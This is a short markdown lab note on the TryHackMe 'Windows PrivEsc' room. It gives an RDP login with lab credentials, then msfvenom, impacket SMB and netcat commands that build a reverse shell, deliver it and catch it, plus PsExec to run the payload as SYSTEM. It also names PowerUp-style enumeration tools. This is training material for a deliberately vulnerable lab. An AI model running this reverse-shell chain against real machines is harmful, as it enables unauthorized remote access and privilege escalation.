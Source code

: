 ```yaml
---
title: Windows PrivEsc
published: 2025-02-22
description: "Practice your Windows Privilege Escalation skills on an intentionally misconfigured Windows VM with multiple ways to get admin/SYSTEM!"
image: "./img/img.jpeg"
tags: [Notes ,THM, windows]
category: 'Notes'
draft: false
---
```


start with rdp
```bash
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.130.87
```


# enerate a Reverse Shell Executable

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.5.46 LPORT=53 -f exe -o reverse.exe
# on kali
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
# on windows
copy \\10.9.5.46\kali\reverse.exe C:\PrivEsc\reverse.exe
# setting listner
sudo nc -nvlp 53
# execute the program and u will get reverse shell
# to escalate from Admin -> System
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

# Tools

for enumeration use `PowerUp`, `SharpUp`, `WinPeas`. 

### PowerUp
```bash
. .\PowerUp.ps1
Invoke-allChecks
```


![powerUp](image.png)
